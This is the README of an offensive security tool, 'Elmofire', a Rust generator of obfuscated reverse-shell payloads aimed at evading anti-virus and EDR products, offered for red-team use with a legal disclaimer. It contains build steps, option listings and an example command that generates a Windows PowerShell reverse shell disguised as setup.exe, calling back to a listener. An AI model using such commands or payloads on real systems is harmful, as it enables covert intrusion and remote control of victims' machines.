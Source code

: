 <h1>🔥Elmofire🔥</h1>

<h3>Version:</h3>
<ul>0.1.0</ul>

<h3>Description:</h3>
<p>Elmofire has been developed to keep up with the demand of Security Best Practices and Red Team exercises. During an assessment, typically Penetration Testers/Red Team Operators are tasked with bypassing current protections in place within corporate infrastuctures. As most Anti-Virus, likewise Endpoint Detection and Response (EDR) software solutions detect known malware samples based on heuristics and forensic fingerprinting, the goal of Elmofire is to bypass these detections. While not fully undetectable by every form of EDR on the planet 🌎, Elmofire does an excellent job at generating a randomized and obfuscated payload in an attempt to evade these malware detection services. Currently bypassing all known Anti-Virus solutions on VirusTotal, (Feel free to generate a payload and see for yourself. 😉), the payloads generated by Elmofire are very likely to evade most protection software utilized by organizations throughout the Cyber Security industry.</p>
<h3>Dependencies:</h3>
<ul><code><a href="https://www.rust-lang.org/">rust - version 1.67.0</a></code></ul>
<ul><code><a href="https://github.com/cross-rs/cross">cross - version 0.2.5</a></code></ul>
<ul><code><a href="https://www.docker.com/">docker - version 20.10.12</a></code></ul>
<h4>NOTE:</h4>
<ul>On Linux, Docker runs in the context of the <code>root</code> user by default. To use <code>cross</code>, which uses Docker to compile Rust binaries, it is advised to add your current user to the <code>docker</code> group. E.g. <code>sudo usermod -aG docker user</code> After executing the above command, run <code>newgrp docker</code> in the context of your <code>user</code> or simply logout and log back in.</ul>

<h4>Developed and tested on:</h4>
<ul><code>Pop!_OS 22.04 (Ubuntu)</code></ul>
<ul><code>Kali Linux 2022.4 (Debian)</code></ul>

<h3>Installation:</h3>
<p>After following the instructions to install <code>rust</code>, <code>docker</code>, and <code>cross</code>, you can compile and build Elmofire using the <code>cargo build</code> command from inside the Elmofire source code folder.</p>
<p>E.g.</p>
<p><code>git clone https://github.com/Elmofire/ef</code></p>
<p><code>cd ef/</code></p>
<p><code>cargo build</code></p>
<p>Once successfully compiled without errors, the <code>ef</code> binary file will be located within the <code>target/debug</code> path within the Elmofire source code directory. Feel free to relocate this binary to your most convienent file path configured in your <code>PATH</code> environment, or simply create an <code>alias</code> to point to the current location of the <code>ef</code> binary.</p>
<h3>Usage:</h3>
<pre>🔥ElmoFire🔥 0.1.0
Author: M4x 5yn74x
Description: Yet another obfuscated payload generator written in Rust

USAGE:
./ef -p &lt;OS-Option&gt; -a &lt;Architecture&gt; -l &lt;Listener&gt; -s &lt;Shell-Type&gt; -o &lt;Output filename&gt;

OPTIONS:
    -a &lt;Architecture&gt;        Architecture: x86_64, i586, i686, arm, armv5te, armv7, aarch64, mips,
                             mipsel, mips64, mips64el
    -h, --help               Print help information
    -l &lt;Listener&gt;            Listening host: &lt;listening ip:port&gt;
    -o &lt;Output&gt;              Output filename: &lt;anything goes&gt;
    -p &lt;OS-Option&gt;           Operating System: windows, linux, darwin, ios, android, solaris,
                                    sun-solaris, freebsd, netbsd, illumos
    -s &lt;Shell-Type&gt;          Shell type: cmd, powershell, /bin/bash, /bin/sh, /system/bin/sh,
                                    /bin/busybox, /usr/bin/zsh
    -V, --version            Print version information
</pre>
<p>E.g.</p>
<code>./ef -a x86_64 -l 10.0.0.10:1337 -o setup.exe -p windows -s powershell</code>

<h3>Disclaimer:</h3>
<p>This tool is intended for Penetration Testers, Security Researchers and Red Teamers alike. DO NOT USE this tool for ILLEGAL purposes or WITHOUT the CONSENT from the parties involved while agreed upon by LEGAL DOCUMENTATION or PERMISSIVE ACCESS for security consultation or research purposes. We, hereby relinquish ALL responsiblity for any illegal use of this tool or ANY binary payloads subsequently generated by the tool as discribed. Please use Elmofire responsibly.</p>
